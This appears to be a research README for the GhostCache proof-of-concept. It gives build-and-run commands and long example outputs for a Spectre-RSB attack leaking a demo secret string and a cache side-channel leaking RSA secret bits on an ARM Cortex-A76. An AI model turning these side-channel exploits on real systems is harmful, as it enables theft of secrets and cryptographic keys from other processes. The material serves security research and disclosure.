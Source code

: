 # Proof-of-concept Spectre and RSA leakage

The results below are a proof-of-concept of the Spectre attack and RSA leakage using the GhostCache. The code is designed to leak secrets from a victim thread's memory area by exploiting cache side-channels.

The following experiment results are produced on `ARM Cortex-A76`.

## Prerequisites

```shell
cd pocs # Change to the directory containing the POC code
```

## Spectre

Reproduces command: `make fullset_spectre_rsb run_fullset_spectre_rsb`.

**Stable expected behavior:** The accuracy is higher than `90%` and the secret is leaked correctly.

Example output:

```shell
mkdir -p ././out
cc -static -O0 smc_fullset_spectre_rsb.c -o ./out/fullset_spectre_rsb
objdump -d --source-comment -Sr ./out/fullset_spectre_rsb > ./out/fullset_spectre_rsb.s
taskset -c 0 ./out/fullset_spectre_rsb
max addr: 0xffffa60cc000
addr: ffffa60ac000, tag: 3fffe982b, idx: 0, offset: 0
[ 84:1|T] 5 [ 84:3|T] 5 
[104:0|h] 5 [104:1|h] 5 [104:2|h] 5 [104:3|h] 5 
[101:0|e] 5 [101:1|e] 5 [101:2|e] 5 [101:3|e] 5 
[ 32:1| ] 5 [ 32:3| ] 5 
[ 42:0|*] 5 
[ 77:0|M] 5 [ 77:1|M] 5 [ 77:2|M] 5 [ 77:3|M] 5 
[ 97:0|a] 5 [ 97:1|a] 5 [ 97:2|a] 5 [ 97:3|a] 5 
[103:1|g] 5 [103:2|g] 5 [103:3|g] 5 
[105:0|i] 5 [105:1|i] 5 [105:2|i] 5 [105:3|i] 5 
[ 99:1|c] 5 [ 99:3|c] 5 
[ 32:0| ] 5 [ 32:2| ] 5 [ 32:3| ] 5 
[ 87:0|W] 5 [ 87:1|W] 5 [ 87:2|W] 5 
[111:0|o] 5 [111:1|o] 5 [111:2|o] 5 [111:3|o] 5 
[114:0|r] 5 [114:1|r] 5 [114:2|r] 5 
[100:0|d] 5 [100:1|d] 5 [100:3|d] 5 
[108:0|l] 5 
[115:0|s] 5 [115:1|s] 5 [115:2|s] 5 [115:3|s] 5 
[ 32:0| ] 5 [ 32:2| ] 5 
[ 97:0|a] 5 [ 97:1|a] 5 [ 97:2|a] 5 [ 97:3|a] 5 
[114:0|r] 5 [114:1|r] 5 [114:2|r] 5 [114:3|r] 5 
[101:0|e] 5 [101:1|e] 5 [101:2|e] 5 
[ 32:0| ] 5 [ 32:1| ] 5 [ 32:2| ] 5 [ 32:3| ] 5 
[ 83:1|S] 5 
[107:0|k] 5 
[113:0|q] 5 [113:1|q] 5 [113:2|q] 5 
[117:0|u] 5 [117:1|u] 5 [117:2|u] 5 
[101:0|e] 5 [101:1|e] 5 [101:2|e] 5 
[ 97:0|a] 5 [ 97:1|a] 5 [ 97:3|a] 5 
[109:0|m] 5 [109:1|m] 5 [109:2|m] 5 [109:3|m] 5 
[ 91:0|[] 5 
[105:0|i] 5 [105:1|i] 5 [105:2|i] 5 [105:3|i] 5 
[115:0|s] 5 [115:1|s] 5 [115:2|s] 5 [115:3|s] 5 
[103:0|g] 5 
[104:0|h] 5 [104:2|h] 5 
[ 32:0| ] 5 [ 32:1| ] 5 [ 32:2| ] 5 [ 32:3| ] 5 
[ 79:0|O] 5 [ 79:1|O] 5 [ 79:2|O] 5 [ 79:3|O] 5 
[115:0|s] 5 [115:1|s] 5 
[115:1|s] 5 [115:2|s] 5 
[105:0|i] 5 [105:1|i] 5 [105:2|i] 5 [105:3|i] 5 
[102:0|f] 5 [102:1|f] 5 [102:2|f] 5 [102:3|f] 5 
[114:0|r] 5 [114:1|r] 5 [114:2|r] 5 [114:3|r] 5 
[ 97:0|a] 5 [ 97:1|a] 5 [ 97:2|a] 5 
[103:0|g] 5 [103:1|g] 5 [103:2|g] 5 [103:3|g] 5 
[101:0|e] 5 [101:1|e] 5 [101:2|e] 5 [101:3|e] 5 
[ 46:0|.] 5 [ 46:1|.] 5 [ 46:2|.] 5 [ 46:3|.] 5 
secret: The Magic Words are Squeamish Ossifrage.
leakys: The Magic Worls are kqueamish Ossifrage. 
correct: 38/40, accuracy: 0.950000
receiver finished
[+] Raw Transmission rate 47.1 b/s, a.k.a 5.9 B/s
[+] Time used: 849184 microseconds
sizeof(secrets): 40, correct: 38, accuracy: 95.000%
```

## Simplify RSA leakage

Reproduces command: `make simplify_rsa && taskset -c 1 ./out/simplify_rsa`.

Please note that the success rate is influenced by whether the context switch can be injected into the scheduler of the operating system by the attacker, making the attacker synchronous to the victim and able to monitor the cache (\$) state change after the victim thread has executed the code that leaks the secret.

**Expected behavior:** the secret is leaked accuracy is higher than `90%`.

You may need to retry the command to get a higher success rate result (e.g., higher than 90%).

Example output:

```shell
mkdir -p ././out
cc -static -O0 smc_simplify_rsa.c -o ./out/simplify_rsa
objdump -d --source-comment -Sr ./out/simplify_rsa > ./out/simplify_rsa.s
b a v b v a v b v a v b v a v b v a v b v a v v b v a v b v a v b v a v b v a v b v a v b v a v v b v a v b v a v b v a v b v a v b v a v b v a v b v a v b v a v b v a v b v a v b v a v b v a v b v a v b v a v b v a v b v a v b v v a v b v a v b v a v b v a v 
leakage   0:secret: 0, valid: 0, sum:  4, success: 0. $ evicted: [1 1 1 1 ] ####
leakage   1:secret: 1, valid: 1, sum:  4, success: 1. $ evicted: [1 1 1 1 ] ####
leakage   2:secret: 0, valid: 1, sum:  1, success: 1. $ evicted: [1 0 0 0 ] #
leakage   3:secret: 1, valid: 1, sum:  4, success: 1. $ evicted: [1 1 1 1 ] ####
leakage   4:secret: 0, valid: 1, sum:  2, success: 1. $ evicted: [1 1 0 0 ] ##
leakage   5:secret: 1, valid: 1, sum:  4, success: 1. $ evicted: [1 1 1 1 ] ####
leakage   6:secret: 0, valid: 1, sum:  2, success: 1. $ evicted: [1 1 0 0 ] ##
leakage   7:secret: 1, valid: 1, sum:  4, success: 1. $ evicted: [1 1 1 1 ] ####
leakage   8:secret: 0, valid: 1, sum:  2, success: 1. $ evicted: [1 1 0 0 ] ##
leakage   9:secret: 1, valid: 1, sum:  4, success: 1. $ evicted: [1 1 1 1 ] ####
leakage  10:secret: 0, valid: 1, sum:  2, success: 1. $ evicted: [1 1 0 0 ] ##
leakage  11:secret: 1, valid: 1, sum:  4, success: 1. $ evicted: [1 1 1 1 ] ####
leakage  12:secret: 0, valid: 1, sum:  2, success: 1. $ evicted: [1 1 0 0 ] ##
leakage  13:secret: 1, valid: 1, sum:  4, success: 1. $ evicted: [1 1 1 1 ] ####
leakage  14:secret: 0, valid: 1, sum:  2, success: 1. $ evicted: [1 1 0 0 ] ##
leakage  15:secret: 1, valid: 1, sum:  4, success: 1. $ evicted: [1 1 1 1 ] ####
leakage  16:secret: 0, valid: 1, sum:  2, success: 1. $ evicted: [1 1 0 0 ] ##
leakage  17:secret: 1, valid: 1, sum:  4, success: 1. $ evicted: [1 1 1 1 ] ####
leakage  18:secret: 0, valid: 1, sum:  2, success: 1. $ evicted: [1 1 0 0 ] ##
leakage  19:secret: 1, valid: 1, sum:  4, success: 1. $ evicted: [1 1 1 1 ] ####
leakage  20:secret: 0, valid: 1, sum:  2, success: 1. $ evicted: [1 1 0 0 ] ##
leakage  21:secret: 1, valid: 1, sum:  4, success: 1. $ evicted: [1 1 1 1 ] ####
leakage  22:secret: 0, valid: 1, sum:  2, success: 1. $ evicted: [1 1 0 0 ] ##
leakage  23:secret: 1, valid: 1, sum:  4, success: 1. $ evicted: [1 1 1 1 ] ####
leakage  24:secret: 0, valid: 1, sum:  2, success: 1. $ evicted: [1 1 0 0 ] ##
leakage  25:secret: 1, valid: 1, sum:  4, success: 1. $ evicted: [1 1 1 1 ] ####
leakage  26:secret: 0, valid: 1, sum:  2, success: 1. $ evicted: [1 1 0 0 ] ##
leakage  27:secret: 1, valid: 1, sum:  4, success: 1. $ evicted: [1 1 1 1 ] ####
leakage  28:secret: 0, valid: 1, sum:  2, success: 1. $ evicted: [1 1 0 0 ] ##
leakage  29:secret: 1, valid: 1, sum:  4, success: 1. $ evicted: [1 1 1 1 ] ####
leakage  30:secret: 0, valid: 1, sum:  2, success: 1. $ evicted: [1 1 0 0 ] ##
leakage  31:secret: 1, valid: 1, sum:  4, success: 1. $ evicted: [1 1 1 1 ] ####
success: 31, success rate: 96.88%
```
